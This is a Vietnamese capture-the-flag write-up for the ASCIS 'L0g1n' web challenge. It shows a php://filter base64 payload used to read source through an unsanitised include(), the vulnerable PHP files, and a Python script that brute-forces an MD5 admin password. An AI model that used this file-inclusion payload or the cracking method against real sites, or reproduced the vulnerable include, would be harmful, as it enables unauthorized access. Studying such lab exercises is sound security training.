 # L0g1n - ASCIS

### Thể loaij: Web

### Link bài: http://27.32.87.34.bc.googleusercontent.com

### Gợi ý: Không có

### Kiến thức:
- Path Traversal
- PHP Wrappers and Protocols
- Hash md5

### Phân tích đề:
Khi vào link này thì nó redirect sang trang này. Hừmmm

http://27.32.87.34.bc.googleusercontent.com/?page=home

![](./img/home.png?raw=true)

Đầu tiên mình nghĩ tới việc dùng Path traversal.

![](./img/url_traversal.png?raw=true)

No thing is here.
Thử một vài cái nữa vẫn không có gì xảy ra.

Thôi thì thử dùng PHP Wrappers and Protocols
cho tham số page=php://filter/read/convert.base64-encode/resource=home

![](./img/base64_home.png?raw=true)

Ái chà chà. Tao có được mã base64 của trang home.php.

Giờ dùng base64 decode thôi.
![](./img/base64_home_terminal.png?raw=true)

Lúc vào web để xem thì ta biết được nó có 3 trang: home, login, register với trang index nữa.
Giờ tao lấy hết source code của nó.

Ta chú ý các đoạn source sau:

1/ Trong file index.php
```php
    if(isset($_GET["page"]) && !empty($_GET["page"]))
  {
    if( strpos(strtolower($_GET["page"]), "secret") !== false)
      {
        die("<font color='red' size='5'>(￣^￣)ゞ Hi Comrade, Something Wrong!</font>");
      }
    include($_GET["page"].".php");
  }
  else
  {
    header("Location: ?page=home");
  }
```

2/ Trong file home.php
```php
<?php 
			include('secret.php');
			echo '<h3>';
			if(isset($_SESSION['user']) && $_SESSION['user']==="admin")
			{
				print("Oops, Admin? Here your flag...<br><font color='red'>( ノ-_-)ノ ( ノ-_-)ノ</font><font color='white'> $flag </font><font color='red'>ヾ(^-^ヽ)ヾ(^-^ヽ)</font>");
			}
			else
			{
				print("Hello, it looks like you haven't logged in yet, please <a href='?page=login'>L0g1n</a><br><br><font color='green'>!!(ﾒ￣ ￣)_θ☆°0°)/</font> <font color='blue'>(`⌒*)O-(`⌒´Q)</font> <font color='red'>(¬_¬'')ԅ(￣ε￣ԅ)</font>");
			}
			echo '</h3>';
		?>

```

3/ Trong file login.php

```php
if(isset($_POST["username"]) && !empty($_POST["username"]) && isset($_POST["password"]) && !empty($_POST["password"]) && isset($_POST["token"]))
{
	if($_SESSION["form_token"]===$_POST["token"])
	{
  		unset($_SESSION['form_token']);
  		$_SESSION["form_token"] = md5(uniqid(rand(), true));
  		if ($_POST["username"] === "admin" && md5($_POST["password"]) === "c3cef6586e2e5705d9ed18ba8f4346c0")
        {
  			$_SESSION['user'] = "admin";
  			print("Ok... Have a good day!");
  		}
  		else if ($_POST["username"] === "admin") 
  		{
  			print("Wrong Password, <font color='red'>(╯°-°)╯</font><font color='brown'>彡┻━┻</font>");
  		}
  		else
  		{
  			print("Wrong Username/Password<br><font color='blue'>‿︵‿︵‿︵‿</font><font color='red'>ヽ(°□° )ノ</font><font color='blue'>︵‿︵‿︵‿︵</font>");
  		}
	}
}
else 
{
	print("Hello, Login here <font color='green'>＼(＾▽＾)／</font>");
}

```

4/ Tring file register.php

```php
<?php
if (!defined('check_access')) 
{
        die("<font color='red' size='5'>(￣^￣)ゞ Hi Comrade, Something Wrong!</font>");
}
?>
<html>
	<title> L0g1n </title>
	<body>
		<h1><font color="purple">🔗 Register (Under maintenance)</font></h1>

<?php

echo '<h3>';

if(isset($_POST["username"]) && !empty($_POST["username"]) && isset($_POST["password"]) && !empty($_POST["password"]))
{
	if($_POST["username"] === "admin") 
	{
		print("<font color='red'>(っ•﹏•)っ</font> User already exists ");
	}
	else
	{
		print("Our register service is under maintenance so please come back later.<br><font color='blue'>ヾ(⌐■_■)ノ♪</font>");
	}
}

echo '</h3>';

?>
<form action="?page=register" method="POST">
		<br><strong>USERNAME</strong><br> <input disabled type="text" title="Something very wrong!!!" pattern="[a-z0-9]{4,10}" name="username"/><br>
		<strong>PASSWORD</strong><br> <input disabled type="password" title="Something very wrong!!!" pattern="[a-h0-9]{4,7}" name="password" /><br>
		<strong>ADDRESS</strong><br> <input disabled type="address" name="address"> (Optional)<br><br>
		<button type="submit" class="button1">Register</button>
		</form>
	</body>
</html>

```

### Suy luận các thứ:

1/ Đầu tiên là file index.php
![](./img/index_php.png?raw=true)

Có lẽ chỉ cần bypass qua được cái strpos và strtolower là có thể lấy được source của file secret.php (nơi chứa flag)
Nhưng rất tiếc, sau một đống thời gian tìm và thử => No hope :(

Trong file home.php
![](./img/home_php.png?raw=true)

Trong này chả có gì nhiều. Ta chỉ biết được là đăng nhập bằng admin được thì có flag thôi.

Tiếp theo là trong file register.php
![](./img/register_php.png?raw=true)

Trong này ta chỉ nên chú ý một đoạn là đoạn nhập form
Username và password được pattern trong khoảng từ a-h và từ 0-9 với độ dài trong khoảng 4-7.
Không biết ban tổ chức có lừa mình không. Nhưng mong là password của admin cũng thỏa mãn điều kiện này để bruce force.
  
Tiếp theo là trong file login.php
![](./img/login_php.png?raw=true)

Úi chà, có được password sau khi md5 là 'c3cef6586e2e5705d9ed18ba8f4346c0' luôn. Giờ decrypto cái password chắc ra được mật khẩu.

### Code:
Mình code một đoạn để "chó ngáp phải ruồi" thôi. Chạy mà lòng mong BTC không lừa mình.

```python
import hashlib 
import secrets
res = "c3cef6586e2e5705d9ed18ba8f4346c0"
while True:
    password = ''.join(secrets.choice('abcdefgh0123456789') for i in range(7))
    result = hashlib.md5(bytes(password,encoding='utf-8'))
    if(res == result.hexdigest()):
        print(password + ": True")
        break
    else:
        print(password + ": False")
```

Chạy một hồi thì ra được password là 143b4b3


Vào trang login submit với username = admin và password = 143b4b3 thôiiii.
![](./img/logged_in.png?raw=true)

Vào lại home:

![](./img/flag.png?raw=true)

Flag:  ASCIS{__Hav3_Y0u_Heard_Ab0ut__HTML_PATT3rN?_} 

# Khá toang. Anyway, THIS IS THE ENDGAME!!!!
